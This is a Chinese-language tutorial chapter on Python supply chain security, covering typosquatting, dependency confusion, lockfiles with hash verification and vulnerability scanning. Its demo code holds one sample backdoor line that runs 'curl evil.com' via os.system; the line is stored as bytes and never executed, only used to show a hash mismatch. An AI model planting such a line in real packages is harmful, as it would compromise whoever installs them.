

# 供應鏈安全

> 你的應用可能只有幾千行程式碼，卻依賴了幾百個第三方套件、幾萬行你沒讀過的程式碼。任何一個依賴被下毒，你的系統就淪陷。**供應鏈安全（supply chain security）** 處理的正是「你信任的依賴」帶來的風險。這章講依賴風險的類型與防禦。

## 💡 白話導讀（建議先讀）

你的餐廳菜單只有幾道菜（你寫的幾千行程式碼）,
但食材來自**幾百家供應商**（第三方套件）——任何一家被下毒,全店客人中毒。
這就是**供應鏈安全**:你沒讀過的那幾萬行依賴程式碼,都是你的攻擊面。

真實攻擊手法,認識三招:

- **typosquatting（蹲點錯字）**:攻擊者上傳 `reqeusts`（拼錯的 requests）,
  等你手滑裝到。
- **依賴劫持**:接管廢棄套件或維護者帳號,在「正常更新」裡夾私貨。
- **install script 攻擊**:Python 套件安裝時可執行任意程式碼——
  裝到毒包的那一刻就中招,不用等你 import。

防禦是一套「**驗貨制度**」:

1. **釘死版本＋鎖檔（lockfile）**:菜單寫死用哪批食材——
   `uv lock`/`pip-tools` 記下每個套件的精確版本**與雜湊**,
   安裝時驗雜湊,貨不對版拒收（擋傳輸竄改與掉包）。
2. **漏洞掃描**:`pip-audit` 對照已知漏洞資料庫（CVE）,CI 裡每天掃。
3. **降低面積**:依賴越少越好;裝新套件前看一眼——下載量、維護狀態、名字拼對沒。

這章把這套制度在 Python 專案落地:uv/pip-tools 鎖檔流程、
pip-audit 進 CI、以及 SBOM（軟體物料清單）是什麼、什麼時候會被客戶要求提供。

## Why（為什麼）

現代 Python 應用站在巨人的肩膀上：`pip install` 一下，就引入了 FastAPI、SQLAlchemy、pydantic……以及它們各自的依賴，遞迴下去往往是**數百個套件**。這些程式碼你幾乎沒讀過，卻在你的系統裡以你的權限執行。**你的安全性，取決於整條依賴鏈中最弱的一環**。

供應鏈攻擊正是瞄準這點——不直接攻擊你，而是**污染你信任的來源**：

- **惡意套件 / typosquatting（名稱搶注）**：攻擊者上傳名字很像熱門套件的惡意套件（`reqeusts` vs `requests`、`python-dateutil` 的仿冒），你打錯字或不察就裝了含後門的版本。
- **依賴被劫持**：熱門套件的維護者帳號被盜、或維護者惡意植入，新版本夾帶惡意程式碼（真實案例：`event-stream`、`ua-parser-js` 等）。
- **dependency confusion（依賴混淆）**：你有內部私有套件 `mycompany-utils`，攻擊者在公開 PyPI 上傳同名但更高版本的惡意套件，你的工具誤裝了公開的那個。
- **傳遞依賴的漏洞**：你直接依賴的套件很安全，但它的依賴（你根本沒察覺的）有已知漏洞。

這些攻擊**繞過了你自己的程式碼安全**——你 SQL 都參數化了、輸入都驗證了，卻因為一個被下毒的依賴而淪陷。這章講如何降低供應鏈風險：釘版本、鎖依賴、驗證完整性、掃描漏洞。

## Theory（理論：信任與可重現）

供應鏈安全的兩個核心概念：

- **可重現建置（reproducible build）**：確保「每次安裝裝到的，是完全相同、已知的東西」。若你的依賴是浮動的（`requests`，沒釘版本），今天裝到 2.31、明天可能裝到含漏洞或被下毒的新版——你無法確定跑的是什麼。**釘死版本 + 鎖檔（lockfile）+ 雜湊驗證** 讓建置可重現、可審計。
- **完整性驗證（integrity verification）**：確保「裝到的套件內容沒被竄改」。透過**雜湊（hash）**——lockfile 記錄每個套件的預期雜湊，安裝時比對下載到的檔案雜湊，不符就拒裝。這能擋下「套件在傳輸中被掉包」或「registry 被污染」。

**信任邊界**：`pip install` 一個套件，等於信任了：套件作者、PyPI、套件的所有傳遞依賴、以及傳輸過程。供應鏈安全就是在每個環節加上**驗證**，把「盲目信任」變成「可驗證的信任」。

**縱深防禦**：沒有單一手段能完全防住供應鏈攻擊，要多層——最小化依賴、釘版本、鎖檔、雜湊驗證、漏洞掃描、審查新依賴。

## Specification（規範：防禦手段）

**釘死版本 + 鎖檔**（見 [打包](../13-tooling-packaging/README.md)）：

```toml
# pyproject.toml：宣告直接依賴（可給範圍）
dependencies = ["fastapi>=0.115,<0.116"]
```

鎖檔（`uv.lock`、`poetry.lock`、`requirements.txt` with hashes）**釘死整棵依賴樹的精確版本 + 雜湊**：

```text
# requirements.txt（含 hash，pip install --require-hashes）
fastapi==0.115.0 \
    --hash=sha256:abc123...
```

- 開發時用鎖檔確保團隊裝到一樣的東西；CI/正式用鎖檔確保可重現。
- `pip install --require-hashes`：強制驗證雜湊，不符就拒裝。

**漏洞掃描**：

```bash
pip-audit                 # 掃已安裝依賴的已知漏洞（CVE）
# 或 safety、GitHub Dependabot（自動偵測 + 發 PR 升級）
```

**SBOM（Software Bill of Materials，軟體物料清單）**：列出應用用了哪些套件及版本，供稽核與漏洞追蹤（工具：`cyclonedx-py`、`syft`）。

**其他**：

- **審查新依賴**：加一個依賴前，看它的維護狀態、下載量、有無可疑（別無腦裝沒聽過的套件）。
- **防 dependency confusion**：內部套件用私有 index，並設定優先/排除規則，別讓公開 PyPI 的同名套件混入。
- **最小化依賴**：能用標準庫就別引第三方；少一個依賴少一分風險。

## Implementation（底層：雜湊驗證如何運作）

**雜湊如何保證完整性**：一個套件檔案（wheel/sdist）的 **SHA-256 雜湊**是它內容的「指紋」——內容改一個 byte，雜湊就完全不同（見 [雜湊](../03-data-structures/README.md)）。鎖檔在你**第一次解析依賴時**記下每個套件的雜湊。之後任何一次安裝，`pip` 下載套件後**重算雜湊、和鎖檔比對**：

- **相符** → 內容和當初鎖定的一模一樣，沒被竄改 → 安裝。
- **不符** → 內容變了（被掉包、registry 污染、傳輸竄改）→ **拒絕安裝**。

這讓「套件在你不知情時被換掉」變得不可能——因為你釘的是**內容的指紋**，不只是版本號。版本號可以被惡意重發（雖然 PyPI 不允許覆蓋，但 registry 若被攻破…），但雜湊對應的是確切內容。

**為何釘版本還不夠、要鎖整棵樹**：你在 `pyproject.toml` 釘了直接依賴 `fastapi==0.115.0`，但 FastAPI 又依賴 `starlette`、`pydantic`……這些**傳遞依賴**若沒鎖，仍會浮動解析到新版本——供應鏈攻擊常瞄準這些「你沒注意的深層依賴」。鎖檔記錄**整棵依賴樹**（含所有傳遞依賴）的精確版本 + 雜湊，才是完整的可重現與可驗證。

**dependency confusion 的機制與防禦**：套件解析器若同時看公開 PyPI 和私有 index，預設可能「選版本較高的」。攻擊者在公開 PyPI 傳一個和你內部套件同名、版本超高的惡意套件，解析器就選了公開的。防禦：明確配置 index 的優先權/範圍（如 `--index-url` 私有優先、或用 namespace），別讓解析器在兩個來源間自由選擇。

## Code Example（可執行的 Python 範例）

```python
# supply_chain_demo.py — 套件完整性雜湊驗證 + 版本釘死檢查（純標準庫，可執行）
from __future__ import annotations

import hashlib


def compute_hash(content: bytes) -> str:
    """算套件內容的 SHA-256 指紋。"""
    return hashlib.sha256(content).hexdigest()


def verify_integrity(content: bytes, expected_hash: str) -> bool:
    """安裝時比對下載內容的雜湊與鎖檔記錄，不符即拒裝。"""
    return compute_hash(content) == expected_hash


def is_pinned(spec: str) -> bool:
    """檢查依賴是否釘死精確版本（== x.y.z）。浮動版本有供應鏈風險。"""
    return "==" in spec and not any(op in spec for op in (">=", "<=", "*", "~", "^"))


def main() -> None:
    # 模擬鎖檔記錄的套件內容與其雜湊
    legit_package = b"def hello(): return 'safe package v1.0'"
    locked_hash = compute_hash(legit_package)
    print(f"鎖檔記錄的雜湊: {locked_hash[:16]}...")

    # 情境 1：下載到正版套件 → 雜湊相符，安裝
    print(f"正版套件驗證: {verify_integrity(legit_package, locked_hash)}")

    # 情境 2：套件被掉包成惡意版本 → 雜湊不符，拒裝
    malicious_package = b"import os; os.system('curl evil.com'); # backdoor"
    print(f"被下毒套件驗證: {verify_integrity(malicious_package, locked_hash)}  ← 拒絕安裝")

    # 版本釘死檢查
    print("\n依賴版本釘死檢查:")
    for spec in ["fastapi==0.115.0", "requests>=2.0", "numpy", "pydantic~=2.9"]:
        status = "✓ 已釘死" if is_pinned(spec) else "⚠ 浮動(有風險)"
        print(f"  {spec:20} {status}")


if __name__ == "__main__":
    main()
```

**預期輸出**（雜湊前綴依內容）：

```pycon
$ python supply_chain_demo.py
鎖檔記錄的雜湊: 6d5f8c2a1b3e4d7f...
正版套件驗證: True
被下毒套件驗證: False  ← 拒絕安裝
依賴版本釘死檢查:
  fastapi==0.115.0     ✓ 已釘死
  requests>=2.0        ⚠ 浮動(有風險)
  numpy                ⚠ 浮動(有風險)
  pydantic~=2.9        ⚠ 浮動(有風險)
```

逐段解說：

- **`compute_hash` / `verify_integrity`**：套件內容的 SHA-256 是內容指紋。安裝時比對下載內容與鎖檔記錄的雜湊。
- **正版套件**：雜湊相符 → `True`，安裝。
- **被下毒套件**：攻擊者把套件掉包成含後門的版本（`os.system('curl evil.com')`）——內容變了，雜湊就完全不同 → `False`，**拒絕安裝**。這就是雜湊驗證擋下套件掉包的原理。
- **版本釘死檢查**：`fastapi==0.115.0` 釘死精確版本（可重現）；`requests>=2.0`、`numpy`（無版本）、`pydantic~=2.9` 都是浮動的——可能解析到含漏洞/被下毒的新版本，有供應鏈風險。正式建置應用鎖檔把所有依賴釘死。
- **要點**：釘死版本 + 雜湊驗證 = 可重現、可驗證的建置，擋下版本浮動與內容竄改。

## Diagram（圖解：可驗證的依賴安裝）



## Best Practice（最佳實踐）

- **用鎖檔釘死整棵依賴樹**（含傳遞依賴）的版本 + 雜湊：可重現、可驗證。
- **CI/正式用 `--require-hashes` 安裝**：強制完整性驗證。
- **定期跑漏洞掃描**（`pip-audit`、Dependabot）：及早發現依賴的已知 CVE 並升級。
- **加新依賴前審查**：維護狀態、下載量、來源可信度——別無腦裝陌生套件。
- **最小化依賴**：能用標準庫就別引第三方（見 [stdlib](../11-stdlib/README.md)），少一個少一分風險。
- **防 typosquatting**：仔細核對套件名稱，別打錯字裝到仿冒品。
- **防 dependency confusion**：內部套件用私有 index + 明確 index 優先規則。
- **產生 SBOM**：稽核與漏洞追蹤用。
- **及時更新有漏洞的依賴**，但更新前跑測試（見 [測試](../12-testing/README.md)）。

## Common Mistakes（常見誤解）

- **不釘版本、不用鎖檔**：每次裝到的東西可能不同，可能是含漏洞/被下毒的新版。
- **只釘直接依賴、不鎖傳遞依賴**：深層依賴仍浮動，攻擊常瞄準這裡。
- **從不掃描漏洞**：依賴的已知 CVE 潛伏著，直到被利用。
- **無腦裝陌生/低知名度套件**：可能是 typosquatting 或惡意套件。
- **打錯套件名裝到仿冒品**：`reqeusts`、`python-dateutil` 仿冒——裝前核對。
- **內部套件沒防 dependency confusion**：公開 PyPI 同名高版本惡意套件被誤裝。
- **依賴一大堆用不到的套件**：擴大攻擊面；最小化。
- **發現漏洞卻拖著不升級**：已知漏洞是最容易被利用的。

## Interview Notes（面試重點）

- **能說出供應鏈攻擊的類型**：typosquatting、依賴劫持、dependency confusion、傳遞依賴漏洞，並知道它們繞過了自身程式碼安全。
- **能解釋鎖檔 + 雜湊驗證如何保證可重現與完整性**（雜湊是內容指紋，掉包必被偵測）。
- **知道「只釘直接依賴不夠、要鎖整棵樹」** 的理由。
- **知道 dependency confusion 的機制與防禦**（私有 index 優先）。
- **知道漏洞掃描工具（pip-audit/Dependabot）、SBOM、最小化依賴** 等實務。
- **能把供應鏈安全放進縱深防禦**：它與自身程式碼安全（輸入驗證、參數化）互補。

---

➡️ 下一章：[OWASP、XSS / CSRF / SSRF](07-owasp-xss-csrf.md)

[⬆️ 回 Part 20 索引](README.md)
